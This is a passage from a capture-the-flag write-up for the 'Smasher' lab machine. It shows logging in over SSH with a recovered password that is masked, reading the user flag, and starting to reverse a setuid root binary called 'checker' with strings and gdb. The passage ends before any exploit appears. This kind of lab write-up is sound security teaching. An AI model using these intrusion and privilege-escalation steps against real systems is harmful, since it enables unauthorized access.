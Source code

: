 This way, we obtain the plaintext pretty fast:
```
SSH password for user 'smasher' is: xxxxxxxxxxxxxxxxxxxxxx
```

Now that we have the SSH password, let's grab user.
```sh
$ sshpass -p xxxxxxxxxxxxxxxxxxxxxx ssh smasher@10.10.10.89
smasher@smasher:~$ cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## Root

From here, things get boring. After looking around for a very long time, we find the following binary:
```sh
smasher@smasher:~$ ls -lah /usr/bin/checker
-rwsr-xr-x 1 root root 14K Apr  4  2018 /usr/bin/checker
smasher@smasher:~$ checker
[+] Welcome to file UID checker 0.1 by dzonerzy

Missing arguments
smasher@smasher:~$ checker user.txt
[+] Welcome to file UID checker 0.1 by dzonerzy

File UID: 0

Data:
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
smasher@smasher:~$ checker /root/root.txt
[+] Welcome to file UID checker 0.1 by dzonerzy

Acess failed , you don't have permission!
smasher@smasher:~$ checker /etc/passwd
[+] Welcome to file UID checker 0.1 by dzonerzy

Segmentation fault
```

This looks interesting. We download the binary and disassemble main.
```sh
$ strings -n 20 checker
/lib64/ld-linux-x86-64.so.2
You're not 'smasher' user please level up bro!
[+] Welcome to file UID checker 0.1 by dzonerzy
Acess failed , you don't have permission!
File does not exist!
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609
[...]
gdb> disassemble main
Dump of assembler code for function main:
   0x0000000000400a7b <+0>:	push   rbp
   0x0000000000400a7c <+1>:	mov    rbp,rsp
   0x0000000000400a7f <+4>:	sub    rsp,0x230
   0x0000000000400a86 <+11>:	mov    DWORD PTR [rbp-0x224],edi
   0x0000000000400a8c <+17>:	mov    QWORD PTR [rbp-0x230],rsi
   0x0000000000400a93 <+24>:	call   0x4007d0 <getuid@plt>
   0x0000000000400a98 <+29>:	cmp    eax,0x0
   0x0000000000400a9d <+34>:	je     0x400ab3 <main+56>
   0x0000000000400a9f <+36>:	mov    edi,0x400c70
   0x0000000000400aa4 <+41>:	call   0x4007a0 <puts@plt>
   0x0000000000400aa9 <+46>:	mov    eax,0xffffffff
   0x0000000000400aae <+51>:	jmp    0x400bb5 <main+314>
   0x0000000000400ab3 <+56>:	mov    edi,0x400ca0
   0x0000000000400ab8 <+61>:	call   0x4007a0 <puts@plt>
```